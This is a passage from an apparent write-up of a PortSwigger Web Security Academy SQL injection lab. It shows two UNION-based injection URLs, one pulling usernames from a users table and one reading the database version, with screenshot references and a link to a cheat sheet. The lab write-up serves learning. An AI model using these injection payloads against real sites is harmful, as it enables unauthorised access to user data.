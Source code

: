 Then i tested to fetch the usernames:   
```bash
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,username+FROM+users--
```

![](res/portSwigLab-17.png)

Now a logical move was to determine the version and type of the database.   
I used a [cheatsheet](https://portswigger.net/web-security/sql-injection/examining-the-database) to try the different queries and found the right one.   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,version()--
```

![](res/portSwigLab-19.png)
